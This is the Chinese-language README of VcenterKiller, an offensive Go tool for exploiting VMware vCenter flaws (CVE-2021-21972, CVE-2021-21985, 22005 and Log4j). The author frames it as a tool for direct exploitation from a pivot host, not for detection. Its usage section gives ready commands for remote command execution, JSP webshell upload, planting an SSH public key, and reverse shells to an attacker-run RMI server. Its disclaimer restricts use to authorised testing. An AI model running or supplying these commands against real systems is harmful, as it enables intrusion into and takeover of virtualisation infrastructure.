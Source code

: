 # VcenterKiller
#### 0.必读
目前本工具处于刚上线阶段，可能会有很多BUG，如果遇到bug请提issue



目前集成了对Vcenter log4j漏洞的检测和利用功能，思路来自于带哥[@j5s](https://github.com/j5s)的项目[SuperFastjsonScan](https://github.com/j5s/SuperFastjsonScan)，原理参考[Golang实现RMI协议自动化检测Fastjson](https://www.anquanke.com/post/id/249402)，简单来说就是不借助dnslog之类的平台，只要你和目标主机是通的并且你的主机/跳板没有被防火墙做端口限制，那就能直接验证目标是否远程调用了你的rmi服务。



后续会集成基于CVE-2021-21985一键添加管理员用户的功能，这样就不必非要先拿shell，再通过python在服务器执行ldap_adduer脚本了，总之有更好的方式。



后续



Vmware workstation One Access ...

VMware vRealize Operations Manager ...
#### 1.它是什么

一款针对Vcenter（暂时）的综合**验证**工具，包含目前最主流的CVE-2021-21972、CVE-2021-21985以及CVE-2021-2205，提供一键上传webshell，命令执行或者上传公钥并使用SSH连接的功能，以及针对Apache Log4j CVE-2021-44228漏洞在Vcenter上的检测和验证。

#### 2.它的定位

一般Vcenter都放在内网，并且漏洞特征也都是烂大街，像什么fscan啦一扫就出来了，那么VcenterKiller就不是用来检测目标是否存在漏洞的，而是直接尝试利用，一般通过CS/MSF在跳板上来执行，所以去掉了其余花里胡哨的输出。

为什么用GO，因为Python写起来方便但是用起来很蛋疼，各种依赖库，编译吧体积太大，C#没法跨平台，写到一半扔了。

#### 3.使用方法

```bash
go build -o main.exe

./main.exe -u https://192.168.1.1 -m 21985 -c whoami
./main.exe -u https://192.168.1.1 -m 22005 -f test.jsp
./main.exe -u https://192.168.1.1 -m 21972 -f test.jsp
./main.exe -u https://192.168.1.1 -m 21972 -f id_rsa.pub -t ssh //传公钥
./main.exe -u https://192.168.1.1 -m 21985 -t rshell -r rmi://xx.xx.xx.xx:1099/xx
./main.exe -u https://192.168.1.1 -m log4center -t scan // scan log4j
./main.exe -u https://192.168.1.1 -m log4center -t rshell -r rmi://xx.xx.xx.xx:1099/xx //get reverseshell
```

#### 4.免责声明

本工具仅面向**合法授权**的企业安全建设行为，例如企业内部攻防演练、漏洞验证和复测，如您需要测试本工具的可用性，请自行搭建靶机环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。**请勿对非授权目标使用。**

如您在使用本工具的过程中存在任何非法行为，**您需自行承担相应后果**，我们将不承担任何法律及连带责任。

#### 5.更新日志

```bash
V1.0 上线
V1.1 针对CVE-2021-21985添加了利用rmi反弹shell的功能，前提是你要启动一个rmi服务器，例如jndi-injection-exploit
V1.2 增加了针对Vcenter的log4j检测和验证能力
...
```

